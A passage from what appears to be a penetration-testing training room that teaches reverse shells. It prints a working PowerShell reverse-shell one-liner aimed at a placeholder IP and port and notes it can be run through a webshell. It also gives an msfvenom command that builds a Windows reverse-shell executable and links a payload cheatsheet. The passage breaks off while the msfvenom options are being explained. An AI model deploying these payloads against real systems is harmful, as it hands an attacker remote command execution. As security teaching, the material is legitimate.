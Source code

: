 This command is very convoluted, so for the sake of simplicity it will not be explained directly here. It is, however, an extremely useful one-liner to keep on hand:

`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

In order to use this, we need to replace "&lt;IP&gt;" and "&lt;port&gt;" with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell:

![](https://i.imgur.com/T6o7kOL.png align="left")

---

For other common reverse shell payloads, [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) is a repository containing a wide range of shell codes (usually in one-liner format for copying and pasting), in many different languages. It is well worth reading through the linked page to see what's available.

### Answer the questions below

1. What command can be used to create a *named pipe* in Linux? `mkfifo`
    
2. Look through the linked Payloads all the Things Reverse Shell Cheatsheet and familiarise yourself with the languages available.
    

## msfvenom

Msfvenom: the one-stop-shop for all things payload related.

Part of the Metasploit framework, msfvenom is used to generate code for primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit; however, it can also be used to generate payloads in various formats (e.g. `.exe`, `.aspx`, `.war`, `.py`). It's this latter function that we will be making use of in this room. There is more to teach about msfvenom than could ever be fit into a single room, let alone a single task, so the following information will be a brief introduction to the concepts that will prove useful for this room.  

The standard syntax for msfvenom is as follows:

`msfvenom -p <PAYLOAD> <OPTIONS>`  

For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:

`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`  

![](https://i.imgur.com/JkWeFLq.png align="left")

Here we are using a payload and four options:
